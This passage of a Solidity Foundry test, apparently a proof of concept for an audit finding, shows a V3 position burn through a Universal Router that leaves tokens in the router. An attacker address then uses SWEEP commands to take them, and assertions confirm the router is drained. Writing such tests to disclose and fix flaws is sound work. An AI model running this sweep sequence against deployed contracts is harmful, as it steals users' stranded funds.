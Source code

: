 ```solidity
            amount0Max: type(uint128).max,
            amount1Max: type(uint128).max
        });

        // build up univeral router commands
        bytes memory commands = abi.encodePacked(
            bytes1(uint8(Commands.V3_POSITION_MANAGER_PERMIT)),
            bytes1(uint8(Commands.V3_POSITION_MANAGER_CALL)), // decrease
            bytes1(uint8(Commands.V3_POSITION_MANAGER_CALL)), // collect
            bytes1(uint8(Commands.V3_POSITION_MANAGER_CALL)) // burn
        );

        bytes[] memory inputs = new bytes[](4);
        inputs[0] = abi.encodePacked(
            IERC721Permit.permit.selector, abi.encode(address(router), v3TokenId, block.timestamp, v, r, s)
        );
        inputs[1] =
            abi.encodePacked(IV3NonfungiblePositionManager.decreaseLiquidity.selector, abi.encode(decreaseParams));
        inputs[2] = abi.encodePacked(IV3NonfungiblePositionManager.collect.selector, abi.encode(collectParam));
        inputs[3] = abi.encodePacked(IV3NonfungiblePositionManager.burn.selector, abi.encode(v3TokenId));

        snapStart("V3ToV4MigrationTest#test_v3PositionManager_burn");
        router.execute(commands, inputs);
        snapEnd();

        // after: verify token0/token1 balance in router
        assertEq(token0.balanceOf(address(router)), 9999999999999999999);
        assertEq(token1.balanceOf(address(router)), 9999999999999999999);

        // Attacker front-runs and sweeps the funds
        address attacker = makeAddr("ATTACKER");
        assertEq(token0.balanceOf(attacker), 0);
        assertEq(token1.balanceOf(attacker), 0);
        uint256 routerBalanceBeforeAttack0 = token0.balanceOf(address(router));
        uint256 routerBalanceBeforeAttack1 = token1.balanceOf(address(router));

        vm.startPrank(attacker);

        bytes memory attackerCommands = abi.encodePacked(
            bytes1(uint8(Commands.SWEEP)),
            bytes1(uint8(Commands.SWEEP))
        );

        bytes[] memory attackerInputs = new bytes[](2);
        attackerInputs[0] = abi.encode(address(token0), attacker, 0);
        attackerInputs[1] = abi.encode(address(token1), attacker, 0);

        router.execute(attackerCommands, attackerInputs);

        vm.stopPrank();

        uint256 routerBalanceAfterAttack0 = token0.balanceOf(address(router));
        uint256 routerBalanceAfterAttack1 = token1.balanceOf(address(router));

        assertEq(routerBalanceAfterAttack0, 0, "Router should have no token0 left");
        assertEq(routerBalanceAfterAttack1, 0, "Router should have no token1 left");
        assertEq(token0.balanceOf(attacker), routerBalanceBeforeAttack0);
        assertEq(token1.balanceOf(attacker), routerBalanceBeforeAttack1);
    }
```